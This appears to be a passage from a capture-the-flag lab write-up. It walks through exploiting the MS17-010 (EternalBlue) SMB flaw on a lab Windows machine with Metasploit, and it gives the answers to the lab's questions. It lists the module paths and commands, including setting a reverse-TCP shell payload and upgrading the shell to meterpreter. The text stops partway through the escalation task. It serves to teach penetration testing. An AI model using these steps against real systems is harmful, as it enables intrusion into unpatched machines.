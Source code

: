 ### Start Metasploit

Run the command: **msfconsole**

**No answer needed.**

### Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)

I ran the following command inside the msfconsole: **search ms17-010**

The previous command provided the following path: exploit/windows/smb/ms17_010_eternalblue

**Answer: exploit/windows/smb/ms17_010_eternalblue**

### Show options and set the one required value. What is the name of this value? (All caps for submission)

After selecting the exploit to use, you can use the command: **show options**

**Answer: RHOSTS**

### Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter: **set payload windows/x64/shell/reverse_tcp**

**No answer needed.**

### Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target.

**No answer needed.**

## Task 3: Escalate

### **If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)**

Command: **search shell_to_meterpreter**

**Answer: post/multi/manage/shell_to_meterpreter**

### Select this (use MODULE_PATH). Show options, what option are we required to change?
